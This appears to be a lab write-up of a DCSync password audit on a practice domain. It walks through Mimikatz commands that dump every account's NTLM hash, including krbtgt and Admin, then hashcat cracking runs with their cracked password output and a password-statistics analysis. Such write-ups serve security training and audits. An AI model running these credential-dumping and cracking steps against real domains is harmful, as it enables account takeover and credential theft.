 # DCsync Password Cracking
>> Performing a DC (Domain Control) sync pentest.

## Performing the DCSync.
- Using the administrator password obtained from the previous lab, I was able to gain access into the tortuga DC VM and load the Mimikatz trunk onto its desktop.

![img](https://github.com/elisims/DCsync/raw/main/images/1.jpg)

- Next, using the x64 version of mimikatz, I launched powershell from the file menu.

![img](https://github.com/elisims/DCsync/raw/main/images/2.jpg)

- With PowerShell open, I then launched Mimikatz using the command “./mimikatz.exe”. 
> -  NOTE: I used PowerShell instead of the default cmd launcher because of the limitations the default
cmd presents- While PowerShell is powerful and flexible

![img](https://github.com/elisims/DCsync/raw/main/images/3.jpg)

- I then used the mimikatz command “privilege::debug” to get “god tier” (debug) privileges, and then used those privileges to elevate my token using the mimikatz command “token::elevate”.

![img](https://github.com/elisims/DCsync/raw/main/images/4.jpg)

- Once I had elevated my privilege enough to access the password hashes through the DCSync, I used the command “lsadump::dcsync /domain:tortuga.local /all /csv”. This command dumps all the users within the tortuga.local domain along with their password hashes.

![img](https://github.com/elisims/DCsync/raw/main/images/5.jpg)

- Here’s the full output received from the previously discussed command:

```console
mimikatz # lsadump::dcsync /domain:tortuga.local /all /csv
[DC]
[DC]
[DC]"	"'tortuga.local' will be the domain 'dc01.tortuga.local' will be the DC server
Exporting domain 'tortuga.local'"	
1105	"U478384 0db3396a227ae978162e28d9f8bf3ff2"	66048
1106	"U724564 0bc2cd56aff62e231df637c9997f5db5"	66048
"… … …
1292"	"…
      "U472136 5437b3d561e5b3c302b8ea8f11aef318"	66048
1293	"U529036 3e202fa49136e93508b79bfca232479d"	66048
1294	"U328628 ad5e3408db1ea42441c755715c0c52a6"	66048
1295	"U879436 136ff21d05e3ad70135dc48884e81357"	66048
1296	"U858483 82fb725d156e9179063796dcc45d062a"	66048
1297	"U532495 3237a4cea1efc18fb4394dd41b7dd95d"	66048
1298	"U104961 2805976fa86da938b8b5209a0e73af75"	66048
1299	"U957087 3dbe233471445dbb58b72b95d80c71e7"	66048
1300	"U556079 bba37cb6350910920f27e495aac2d16c"	66048
1301	"U153711 6ba4fd921fa7ecdcc7ac2fe902b0657e"	66048
1302	"U786240 873333e2f8b3e477e840ffe5e77b2003"	66048
1303	"U348616 d64e61a36e000d77a5a1c98fbfe2ce6a"	66048
1304	"U786462 401511cbba86d51f9cd606b83a07d6d9"	66048
1305	"U594663 0ad8fb266a0e5921ebb56854200c6634"	66050
1309	"U257439 91e243f81613c8d3e7db88281c219a09"	66048
1310	"U478245 2d981fdd1f23a2085b7f331e856ab3a3"	590336
1311	"U951863 61b50ceaaa6fba36e9a2d2a85894044e"	17367552
1312	"U836158 ada363ecd153b172ecb664d8916af28d"	66176
1313	"U289311 018e5053ee63ea9da526bfdb51440022"	2097792
1314	"U697137 0f8389a06623ffeb4f866d2b1ba250d1"	640
1315	"U151654 cf3a5525ee9414229e66279623ed5c58"	640
1316	"U371973 cac3a73c02d89fd62392800815e0f425"	4194944
1306	"U891212 26b944d9d6872c12b41d75c39056c35e"	66048
1308	"U323582 09e0198d7ee73c264eb96bfadaa99d56"	66048
502	  "krbtgt  a3f657d01cd6a1f46a1ac36df545bf3b"	514
1320	"U536554 6f22b98d3db9991032ae6f267c0c2753"	672
1319	"wturner 793243be0762ce949633b1bf8c61de59"	66048
1317	"U787486 cac3a73c02d89fd62392800815e0f425"	672
1002	"DC01$   69fc65112f604d0f3c3c7e50d821c398"	532480
500	  "Admin   39d633e9c3fd963d603f131bf42d7ce8"
```

- Once I had all 214 usernames and password hashes for the tortuga.local domain, I moved the data to my attacker VM (Kali Linux distro). On this VM, I edited the data down to two
separate files; 
> - 1. Hashes only named “hashesonly.hashcat” and 
> - 2. Hashes with usernames"named “hashlist.hashcat. 
- Though I could use either of these files, the main file I used for cracking the passwords was the hashes only version.
- I then moved a copy of the “rockyou.txt” wordlist to the desktop and created a new file of the top-5000 words from the rockyou wordlist. This would simplify the use of flags to limit the word usage within the hashcat program itself.

![img](https://github.com/elisims/DCsync/raw/main/images/6.jpg)

## Cracking the hashes.
- Once the setup of the files had been completed, I moved on to using hashcat to start cracking the passwords. I started by running the hashesonly.hashcat files against the
rockyou.txt wordlist straight up with no other rules or flags.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$  hashcat  -m 1000 -a 0 -o outfile.txt hashesonly.hashcat rockyou.txt
```

```console
Session..........: hashcat 
Status...........: Exhausted 
Hash.Name........: NTLM 
Hash.Target......: hashesonly.hashcat 
Time.Started.....: Sat Apr 3 13:50:14 2021 (3 secs) 
Time.Estimated...: Sat Apr 3 13:50:17 2021 (0 secs) 
Guess.Base.......: File (rockyou.txt) 
Guess.Queue......: 1/1 (100.00%) 
Speed.#1.........: 3895.5 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8 
Recovered........: 3/213 (1.41%) 
Digests Progress.........: 14344385/14344385 (100.00%) 
Rejected.........: 0/14344385 (0.00%) 
Restore.Point....: 14344385/14344385 (100.00%) 
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> 
$HEX[042a0337c2a156616d6f732103]
```

- This initial test was quick, but only resulted in the successful cracking of 3 password hashes. I then used the “-k ‘$!’” flag to do a more advanced cracking of the passwords, checking for an “!” at the end of the passwords along with more combinations of two wordlists (both being rockyou.txt). This resulted in the finding of 17 more password hashes. And so I added the flag “-j ‘$-’” but was unfortunately not met with success. It wasn’t until I started using rules (“-r” with a path to the directory the file resides), that I was able to crack more passwords. The rules I ended up using were the “best64” (/usr/share/hashcat/rules/best64) and “dive” (/usr/share/hashcat/rules/dive).

```console
┌──(kali㉿kali)-[~/Desktop] 
└─$ hashcat hashesonly.hashcat -l 5000 -m 1000 -d 1 -k '$!' -a 1 
rockyou.txt rockyou.txt
```

```console
"INFO: Removed 3 hashes found in potfile.
Host memory required for this attack: 65 MB"	
		
"Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 205761381028225"		
		
"d64e61a36e000d77a5a1c98fbfe2ce6a:robertnicole07! 
ad5e3408db1ea42441c755715c0c52a6:zxcvbnmdallas12! 
32e9f9d0e79d4a661043d0fc6b0f0ce5:696969nicole89! 
8dfa93732ca48b1cc07946a4c786b924:gingerjoshua24! 
b361cf06d471f7b0ee54476d42fcc4fc:killerdragon86! 
cc98d098e89d294238d1b961e59c9e4f:qwertyuiopbuster45! 
5dcd7d41ee9dc5a3cfff92365dfff543:joshua123441! 
dc7b6ea42f6b7704c516a3a7172332c6:buster696907!
80f787e27b392374761c493133b6eb18:123123master68!
c7bbe6101e1c495329861712c45dc719:000000dragon51! 
c25a4236f838bfac372ea0f55fef6c4e:555555freedom48! 
cd2a722f9de2457286338c6b6c55a93f:nicoleaustin51! 
800ee86daccd73012afd749d9d89fc41:zxcvbnmqazwsx46! 
3572e91ae1d17ec6864e8297244b7701:777777asshole58! 
c01846e91a23ffb62255fd23b6da4ed5:freedom200097! 
e4b9b463edff8b4ec4c5d0fca14fa974:matrix13131315! 
6e1ece1bb9fb5bfb1c6aaa302b2dd059:1qaz2wsxsunshine32!"
```

- After many hours of my computer being throttled (95-98% RAM usage), I was able to find 25 passwords from the hashes obtained from the DCSync. After some collaboration with fellow cybersecurity professionals, we collectively found 27 unique passwords from the original 214 hashes. Here’s the list of the hashes found:

![img](https://github.com/elisims/DCsync/raw/main/images/7.jpg)

## Password Analysis
- The last part of auditing passwords is the analysis (or processing) of the passwords obtained. This is necessary in order to illustrate the weaknesses in the password policy and give a visual aid to everyone within the company to realize the severity of these vulnerabilities.
- The first tool I used to do this analysis is called “pack” and was downloaded at “https://github.com/iphelix/pack”."

```console
┌──(kali
└─$  python  statsgen.py  ~/Desktop/passwords.txt
_ StatsGen 0.0.3 | |
 _         _     | | _
| '_ \ / _` |/   | |/ /
| |_) | (_| | (  |   <
| .  / \  ,_|\   |_|\_\
| |
|_| iphelix@thesprawl.org"
"[*] Analyzing passwords in [/home/kali/Desktop/passwords.txt] [+] Analyzing 100% (27/27) of passwords
NOTE: Statistics below is relative to the number of analyzed passwords, not total number of passwords"
"[*] Password complexity:
[+]                   digit: min(0) max(11)
[+]                   lower: min(4) max(16)
[+]                   upper: min(0) max(2)
[+]                 special: min(0) max(1)
[*] Simple Masks:
[+]       stringdigitspecial: 51% (14)"
"[*]
[+]"	"Length:"	"15:"	0.370000	-10
"[+]"		"16:"	0.140000	-4
"[+]"		"13:"	0.110000	-3
"[+]"		"10:"	0.070000	-2
"[+]"		"14:"	0.070000	-2
"[+]"		"17:"	0.070000	-2
"[+]"		"19:"	0.070000	-2
"[+]"		"8:"	0.030000	-1
"[+]"		"20:"	0.030000	-1
"[*]"	"Character-set:"		
"[+]"	"loweralphaspecialnum:"	0.740000	-20
"[+]"	"all:"	0.110000	-3
"[+]"	"mixedalphanum:"	0.070000	-2
"[+]"	"mixedalphaspecial:"	0.070000	-2
"[+]"	"othermask:"	0.330000	-9	
"[+]"	"stringspecial:"	0.070000	-2	
"[+]"	"stringdigit:"	0.070000	-2	
```

- The second tool I used to do this analysis is called “password-analyzer” and was downloaded at “https://github.com/dank-panda/password-analyzer.py”.



- Separately, these tools don’t provide the most visually appealing output, however, when graphing this data in a program like Microsoft Excel or Google Sheets- The illustration becomes powerful and visually pleasing.
